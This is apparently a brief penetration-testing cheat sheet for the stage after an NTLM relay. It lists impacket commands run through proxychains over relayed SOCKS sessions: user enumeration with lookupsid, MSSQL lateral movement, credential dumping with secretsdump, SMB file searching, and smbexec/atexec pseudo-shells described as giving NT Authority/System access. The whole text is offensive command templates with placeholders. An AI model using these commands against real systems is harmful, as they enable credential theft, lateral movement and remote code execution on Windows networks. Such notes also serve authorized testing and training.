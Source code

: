 # SOCKS (with NTLM relay)

## Tools: proxychains , lookupsid , secretsdump , mssqlclient , impacket , smbclient

#### 1) lookupsid

 - [proxychains] lookupsid.py DOMAIN/USER@IP -no-pass -domain-sids (Enumerate Users)

#### 2) mssqlclient

 - [proxychains] mssqlclient.py -windows-auth DOMAIN/USER@IP -no-pass (MSSQL lateral movement)

#### 3) secretsdump

 - [proxychains] secretsdump.py -no-pass 'DOMAIN'/'USER'@'IP' (See DC Sync)

#### 4) smbclient

 - [proxychains] smbclient.py -no-pass USER@IP (Search for files)

# Pseudo-shell (File write and read)

 - [proxychains] smbexec.py -no-pass DOMAIN/USER@IP

 - [proxychains] atexec.py -no-pass DOMAIN/USER/IP "COMMAND"

## System/Admin access is granted with the shell being NT Authority/System
